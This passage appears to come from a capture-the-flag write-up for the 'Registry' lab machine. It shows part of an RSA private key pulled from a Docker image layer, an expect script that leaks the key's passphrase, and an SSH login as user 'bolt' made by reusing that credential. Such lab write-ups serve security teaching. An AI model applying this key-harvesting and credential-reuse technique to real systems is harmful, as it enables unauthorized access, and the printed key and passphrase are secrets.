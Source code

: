 ```sh
6B/Yw+ZGcyj738GHH2ikfyrngk1M+7IFGstOhUed7pZORnhvgpgwFporhNOtlvZ1
/e9jJqfo6W8MMDAe4SxCMDujGRFiABU3FzD5FjbqDzn08soaoylsNQd/BF7iG1RB
Y7FEPw7yZRbYfiY8kfve7dgSKfOADj98fTe4ISDG9mP+upmR7p8ULGvt+DjbPVd3
uN3LZHaX5ECawEt//KvO0q87TP8b0pofBhTmJHUUnVW2ryKuF4IkUM3JKvAUTSg8
K+4aT7xkNoQ84UEQvfZvUfgIpxcj6kZYnF+eakV4opmgJjVgmVQvEW4nf6ZMBRo8
TTGugKvvTw/wNKp4BkHgXxWjyTq+5gLyppKb9sKVHVzAEpew3V20Uc30CzOyVJZi
Bdtfi9goJBFb6P7yHapZ13W30b96ZQG4Gdf4ZeV6MPMizcTbiggZRBokZLCBMb5H
pgkPgTrGJlbm+sLu/kt4jgex3T/NWwXHVrny5kIuTbbv1fXfyfkPqU66eysstO2s
OxciNk4W41o9YqHHYM9D/uL6xMqO3K/LTYUI+LcCK13pkjP7/zH+bqiClfNt0D2B
Xg6OWYK7E/DTqX+7zqNQp726sDAYKqQNpwgHldyDhOG3i8o66mLj3xODHQzBvwKR
bJ7jrLPW+AmQwo/V8ElNFPyP6oZBEdoNVn/plMDAi0ZzBHJc7hJ0JuHnMggWFXBM
PjxG/w4c8XV/Y2WavafEjT7hHuviSo6phoED5Zb3Iu+BU+qoEaNM/LntDwBXNEVu
Z0pIXd5Q2EloUZDXoeyMCqO/NkcIFkx+//BDddVTFmfw21v2Y8fZ2rivF/8CeXXZ
ot6kFb4G6gcxGpqSZKY7IHSp49I4kFsC7+tx7LU5/wqC9vZfuds/TM7Z+uECPOYI
f41H5YN+V14S5rU97re2w49vrBxM67K+x930niGVHnqk7t/T1jcErROrhMeT6go9
RLI9xScv6aJan6xHS+nWgxpPA7YNo2rknk/ZeUnWXSTLYyrC43dyPS4FvG8N0H1V
94Vcvj5Kmzv0FxwVu4epWNkLTZCJPBszTKiaEWWS+OLDh7lrcmm+GP54MsLBWVpr
-----END RSA PRIVATE KEY-----
```

Even more conveniently, a utility script in the same layer leaks the key's passphrase:

```sh
# cat /var/lib/docker/overlay2/9d7d1689a187e1a2e49ab253a9118d5d654f76a617fe73413f6a547c1e546e6c/diff/etc/profile.d/02-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

So now, we can use the passphrase to decrypt the key. Surprisingly, the same credentials have been used for the `bolt` user on the host machine! So we can now log in and get a proper shell with user-level privileges:

```sh
# ssh -i registry-root.key bolt@registry.htb
Enter passphrase for key 'registry-root.key':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sun Jan 19 18:58:44 UTC 2020

  System load:  0.13              Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 24%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    153
Last login: Mon Oct 21 10:31:48 2019 from 10.10.14.2
bolt@bolt:~$
```
